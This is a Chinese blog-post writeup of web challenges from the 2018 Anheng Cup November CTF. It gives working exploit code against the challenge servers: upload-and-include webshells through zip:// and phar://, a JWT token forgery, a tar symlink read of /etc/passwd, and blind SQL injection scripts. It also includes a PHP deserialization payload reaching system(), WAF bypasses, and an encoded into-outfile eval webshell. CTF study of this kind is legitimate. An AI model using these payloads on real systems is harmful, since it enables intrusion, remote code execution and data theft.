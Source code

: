 ```yaml
---
layout: post
title: 2018年安恒杯11月月赛web题writeup
author: "鲨鱼辣椒"
header-style: text
lang: zh
tags:
  - 安恒杯
  - ctf
  - web
  - writeup
---
```


> [安恒杯月赛地址](https://www.linkedbyx.com/home)
> [一叶飘零的wp](https://www.anquanke.com/post/id/166492#h2-5)

## web

###签到旧题-手速要快（100分）:
10月份原题，打开网站，是一个登陆页面，password字段在返回包里，抓包然后提交，然后是一个上传页面，上传shell.php.jpg即可getshell。
![](/img/in-post/post-2018安恒杯11月月赛-writeup/签到旧题-手速要快.png)

### image_up（200分）

一个登陆页面，随便输入就能登陆，page参数存在文件包含，可以用`php://filter`读取login和upload源码
![](/img/in-post/post-2018安恒杯11月月赛-writeup/image_up-1.png)
关键代码在upload里
```
<?php
    $error = "";
    $exts = array("jpg","png","gif","jpeg");
    if(!empty($_FILES["image"]))
    {
        $temp = explode(".", $_FILES["image"]["name"]);
        $extension = end($temp);
        if((@$_upfileS["image"]["size"] < 102400))
        {
            if(in_array($extension,$exts)){
              $path = "uploads/".md5($temp[0].time()).".".$extension;
              move_uploaded_file($_FILES["image"]["tmp_name"], $path);
              $error = "上传成功!";
            }
        else{
            $error = "上传失败！";
        }

        }else{
          $error = "文件过大，上传失败！";
        }
    }

?>
```
首先我们要猜测上传文件的文件名，关键位置`md5($temp[0].time())`，我们上传的文件名加上时间戳进行md5生成新的文件名，因此我们需要爆破，但是这里还有一个坑，直接爆破是出不来的，题目提示：
![](/img/in-post/post-2018安恒杯11月月赛-writeup/image_up-2.png)
经群友提示，这里需要考虑时区问题，time+8h（脑洞真大。。。），可以爆破出文件名
```
# -*- coding: UTF-8 -*-
import time
import requests
import hashlib
url = "http://101.71.29.5:10007/"
def md5(str):
  m = hashlib.md5()   
  m.update(str)    
  return m.hexdigest()

files = {
    "image":("1.jpg",open("help.zip","rb"))
}
t = int(time.time()+8*3600)
requests.post(url=url+"index.php?page=upload",files=files)
for i in range(t-200,t+200):
    path = "uploads/"+md5("1"+str(i))+".jpg"    
    status = requests.get(url=url+path).status_code    
    if status == 200:
        print path
        break
```
但是page参数会自动在最后加上`.php`
```
<?php
  if(isset($_GET['page'])){
    if(!stristr($_GET['page'],"..")){
      $page = $_GET['page'].".php";
      include($page);
    }else{
      header("Location: index.php?page=login");
    }
  }else{
    header("Location: index.php?page=login");
  }
```
所以我们还要利用伪协议取getshell，我们先将一句话木马`1.php`压缩为`1.zip`，然后重命名为`1.jpg`，上传后利用伪协议可以将zip压缩包里的木马解析
两种方法都可以：
```
http://101.71.29.5:10007/index.php?page=zip://uploads/ddf1dcc4b533d1631d81a0c58a1b3bdb.jpg%23shell

http://101.71.29.5:10007/index.php?page=phar://uploads/ddf1dcc4b533d1631d81a0c58a1b3bdb.jpg/shell
```
### interesting web（200分）
拿到题目我们看到网站功能只有登陆、注册、和找回密码，以及：
![](/img/in-post/post-2018安恒杯11月月赛-writeup/iinterestingweb-1.png)
可以猜测，我们首选需要利用找回密码的漏洞，修改admin密码，然后上传tar包来getshell。找回密码时需要输入token，经过测试发现网站使用python写的，猜测cookie可能使用的jwt。输入admin点击找回密码，将cookie放到网上揭秘，可以拿到token修改admin密码。
![](/img/in-post/post-2018安恒杯11月月赛-writeup/iinterestingweb-2.png)
然后我们可以上传tar包了，利用软链接可以任意文件读取，flag在/etc/passwd里
```
ln -s /etc/passwd 1.jpg
tar cvfp 1.tar 1.jpg
```
### ezsql（200分）
登陆之后，查看用户信息处存在布尔盲注，很多关键词都过滤了
http://101.71.29.5:10015/user/user.php?id=if(0,1,2)
测试发现可以读文件
http://101.71.29.5:10015/user/user.php?id=if((hex(load_file(0x2f6574632f706173737764))like(0x25)),1,2)
写个脚本注入即可
```
# -*- coding: UTF-8 -*-
import string
import binascii
import requests

hex = lambda s: binascii.hexlify(s)
char = '01234567890ABCDEF'
filename = '/var/www/html/index.php'
c = ''
url = 'http://101.71.29.5:10015/user/user.php?id=if(hex(load_file(0x%s))like(0x%s),1,2)'

for _ in xrange(10000):
  for i in char:
    payload = c + i +'%'
    _url = url % (hex(filename), hex(payload))
    r = requests.get(_url, cookies={'PHPSESSID': 'obgfh6dgt8h9cfcaeus73tlni7'})
    if 'admin' in r.content:
      print '······' + payload
      c = c + i 
      break
      print c
```
得到文件内容
```
<?php 
require_once('config/sys_config.php');
require_once('header.php');
if(isset($_COOKIE['CONFIG'])){
    $config = $_COOKIE['CONFIG'];
    require_once('config/config.php');
}
?>
```
再读取config.php：
```
<?php
$config = unserialize(base64_decode($config));
if(isset($_GET['p'])){
    $p=$_GET['p'];
    $config->$p;
}
class Config{
    private $config;
    private $path;
    public $filter;
    public function __construct($config=""){
        $this->config = $config;
        echo 123;
    }
    public function getConfig(){
        if($this->config == ""){
            $config = isset($_POST['config'])?$_POST['config']:"";
        }
    }
    public function SetFilter($value){
//        echo $value;
    $value=waf_exec($value); 
        var_dump($value);
    if($this->filter){
            foreach($this->filter as $filter){
                $array = is_array($value)?array_map($filter,$value):call_user_func($filter,$value);
            }
            $this->filter = array();
        }else{
            return false;
        }
        return true;
    }
    public function __get($key){
        //var_dump($key);
    $this->SetFilter($key);
        die("");
    }
}
```
发现存在cookie反序列化漏洞，并且可以通过call_user_func执行命令
构造：
```
$sky = new Config();
$sky->filter = array('system');
echo base64_encode(serialize($sky));
```
经过序列化，base64编码后放入cookie中，可通过p参数执行任意命令。
![](/img/in-post/post-2018安恒杯11月月赛-writeup/ezsql.png)
空格和/都被过滤了，可以用`$IFS`绕过空格，用`expr$IFS\substr\$IFS\$(pwd)\$IFS\1\$IFS\1`绕过/，也可以用grep命令。

### 好黑的黑名单（200分）
还是sql注入，过滤了很多东西，空格被过滤可以用%0a代替，万幸and没过滤，看wp知道可以使用`between and`注入
具体方法如下：
![](/img/in-post/post-2018安恒杯11月月赛-writeup/好黑的黑名单.png)
然后payload如下：
```
?id=2 and (select (select database()) between 0x61 and 0x7a)
```
因为单引号被过滤所以使用十六进制，然后写个脚本跑吧。

### write a shell（300分）
继续注入，into outfile，select等关键字经过waf会变为@，所以可以利用该逻辑问题构造@，具体方法百度吧，我也不会。
payload：
```
set |s=concat(CHAR(115, 101, 108, 101, 99, 116, 32, 39, 60, 63, 112, 104, 112, 32, 101, 118, 97, 108, 40, 36, 95, 80, 79, 83, 84, 91, 99, 109, 100, 93, 41, 59, 63, 62, 39, 32, 105, 110, 116, 111, 32, 111, 117, 116, 102, 105, 108, 101, 32, 39, 47, 118, 97, 114, 47, 119, 119, 119, 47, 104, 116, 109, 108, 47, 102, 97, 118, 105, 99, 111, 110, 47, 50, 46, 112, 104, 112, 39));PREPARE s1 FROM |s;EXECUTE s1;

//select '<?php eval($_POST[x]);?>' into outfile '/var/www/html/favicon/11.php'
```
主要思路就是先load_file waf.php，然后想办法绕waf。


[1]: https://www.linkedbyx.com/home
[2]: https://www.anquanke.com/post/id/166492#h2-5